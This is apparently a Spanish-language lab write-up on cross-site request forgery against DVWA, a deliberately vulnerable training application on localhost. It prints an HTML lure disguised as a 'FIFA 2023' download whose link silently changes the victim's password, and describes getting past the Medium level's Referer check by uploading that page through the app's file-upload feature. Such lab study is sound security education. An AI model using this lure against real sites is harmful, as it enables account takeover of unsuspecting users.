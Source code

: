 poner en nivel Low # CSRF
El cross-site request forgery (CSRF) consiste en realizar tareas dentro de una aplicación por medio de la ejecución de un enlace en el navegador de la víctima. \
Se envía un enlace que se crea a partir de una petición que contiene la acción maliciosa planeada por el atacente. \
El siguiente códio HTML contiene la acción maliciosa que cambiará la contraseña automáticamente a (12345) al pinchar en el enlace.
## Nivel: Low
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=dwvice-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
	<h3>Click to download FIFA 2023</h3>
	<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change#">FIFA 2023</a>
</body>
</html>
```
![Inicio CSRF](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/CSRF_cambio_contrase%C3%B1a.png) \
Como se ve en la imagen, en la barra de direcciones aparece la contraseña que el usuario ha cambiado "perico", que luego cambia el atacante con su código malicioso.

![Enlace malicioso](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/enlace_malicioso.png)
## Nivel: Medium

El nuevo código comprueba si la cabecera HTTP-Referer coincide con el nombre del servidor (es decir, la petición HTTP «procede» del mismo servidor que la página recién solicitada). Si es así, asume que la petición es válida y continúa. En caso contrario, produce un error. \
Para solucionar esta protección se puede averiguar el "referer" usando **Burp Suite**, pero lo que se hará aquí,
es cargar el archivo fifa.html desde "File Upload" y ejecutarlo después. (se debe poner el nivel Low para cargarlo, luego se cambia a medium nuevamente).

![Programa malicioso](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/CSRF_cambio_contras_medium.png)

Al pinchar en el enlace se cambia la contraseña automáticamente a "12345".

![Cambia la contraseña](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/cambio_contrasena_medium.png)

Se puede comprobar con el botón "Test credentials" que la contraseña "password" ya no funciona, funciona "12345".


